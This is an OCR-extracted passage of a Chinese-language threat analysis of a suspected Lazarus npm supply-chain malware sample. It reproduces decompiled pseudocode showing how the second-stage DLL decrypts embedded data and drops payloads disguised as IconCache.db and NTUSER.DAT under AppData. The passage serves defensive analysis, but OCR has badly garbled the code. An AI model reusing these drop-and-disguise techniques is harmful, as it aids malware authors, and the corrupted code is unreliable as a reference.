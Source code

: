 ### 第二阶段  

内存加载的PE为DLL文件，主要功能在sub_180002440函数中实现。首先采用相同的解密方法，解密文件中内嵌的zip压缩包数据。  

V1 $=$ (char \*)&g_embed_data_1800445D0;   
v3 $\l=$ &g_embed_data_1800445D0;   
do V4=\*（_DWORD\*)（a1+θx2000)&θx3FF; V5 = ((\*(_WORD\*)(a1 +0x2000)&0x3FF)- 3)&0x3FF; V6=（(\*（_WORD\*)（a1+θx2000)&0x3FF)-10）&0x3FF; v7 =((\*(WoRD \*)(a1 + θx2000) &0x3FF) -12)&0x3FF; V8=（(\*(WORD\*)（a1 +0x2000)&0x3FF)+1)&Ox3FF; if（\*(_DWORD \*)(a1 +0x2000) $>=$ 0x400u) { V9 = \*（_DWORD \*)（a1 + 4 \*V4 +4096) + \*(-DWORD \*)(a1 + 4 \* V6 + 4096) +\*(_DWORD \*)(a1 +4i64 \*(unsigned _int16)\*(_DWORD \*)(a1 + 4 \*v8 + 4096)^(unsigned --int16)\*(_DWORD \*)(a1 + 4 \* v5 + +(-_ROL4-_(\*(DWORD \*)(a1+ 4 \*V8+ 4096),9)^_ROR4__(\*(_DWORD \*)(a1 + 4 \*v5 +4096),10)); \*（_DWORD\*)（a1+4\*V4+4096)=v9; v10 = \*(-DWORD \*)(a1 + 4i64 \*(unsigned int8)\*(_DWORD \*)(a1 +4 \*v7 + 4096)) +\*（DWORD \*)（a1 +4i64 \*（unsigned int8)BYTE1（\*（_DWORD \*)（a1+4\*v7+4096))+1024) + \*(-DWoRD \*)(a1 + 4i64 \*（unsigned int8)BYTE2(\*(DWORD \*)(a1 + 4 \*V7+ 4096))+2048) +\*(_DWORD \*)(a1 + 4i64 \*(unsigned int8)HIBYTE(\*(_DWORD \*)(a1 +4\*V7 +4096))+3072); else  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/2306865b951cd2716747519d1929bae00b732a1c4432cc5d53765d7fe01fa37c.jpg)  

zip压缩包里有一个PE文件，被释放到路径"%AppData%\\..\Roaming\\Microsoft\IconCache.db"。  

SHGetSpecialFolderPathW(0i64, &pszPath, CSIDL_APPDATA, 1);   
v9 $=$ 0i64;   
do   
{ v10 = \*(WCHAR \*)((char \*)&pszPath + v9); v9 += 2i64; \*(_WORD \*)&v32[v9 + 524] =v10;   
while (v10 );   
v11 $=$ -1i64;   
V12 ${}={}$ &FileName;   
do   
{ if（Iv11） break; v13=\*v12++==0; --v11;   
while (!v13 );   
\*（_QWORD \*)(v12 1) $\l=$ 0x5C002E002E005Ci64;   
\*（_QWORD\*)（V12 $^+$ 3) $=$ 0x6D0061006F0052i64;   
\*（_QWORD \*)（v12 +73 $\l=$ 0x5C0067006E0069164;   
\*(_QWORD \*)(v12 $^+$ 11) $=$ 0x7200630069004Di64;   
\*（_QWORD \*)（v12 $^+$ 15) $\l=$ 0x66006F0073006Fi64;   
\*(_QWORD \*)(v12 $^+$ 19) $=$ 0x630049005c0074i64;   
\*（_QWORD \*)（V12+23) $\l=$ 0x610043006E006Fi64;   
\*(-QWORD \*)(v12 + 27) $=$ 0x2E006500680063164;   
\*(DWORD \*)(V12 + 31) ${}={}$ 0X620064; //'\\..\\Roaming\\Microsoft\\IconCache.db'   
V12[33] $=\Theta;$   
v14 ${}={}$ CreateFileW(&FileName，@x4000000ou,0, 0i64,2u,0x8ou,0i64);   
v3 =v14;   
if (v14 $\!=$ (HANDLE)-1i64 && WriteFile(v14, v2,v27[138],&Number0fBytesWritten, 0i64） )// zip中的PE娄据 LocalFree(v2); CloseHandle(V3); V15 $=$ 0i64; do  

另一段内嵌数据释放到路径"%AppData%\.\Roaming\\Microsoft\Network\NTUSER.DAT"。  

疑似Lazarus（APT-Q-1）涉及npm包供应链的攻击样本分析  

v19=L"\\..\\Roaming\\Microsoft\INetwork\\NTUSER.DAT";   
do   
{ if（!v17） break; v13=\*v18++==0; --V17;   
while（!v13）;   
v20 $\l=$ 41i64;   
v21=v18:1;   
while (v20 )   
{ \*v21++= \*v19++; --v20;   
v22=CreateFileW(&v29,0x120116u,1u,0i64,2u,θx8ou,0t64);//"\1..\\Roaming\\Microsoft\\Network\\NTUSER.DAT"   
v23=v22;   
(V22==(HANDLE)-1164) returnOxFFFFFFFFi64;   
WriteFile(v22,&g_embed_data_180021FD0,0x22600u，0i64,0i64);   
CloseHandle(v23)-  
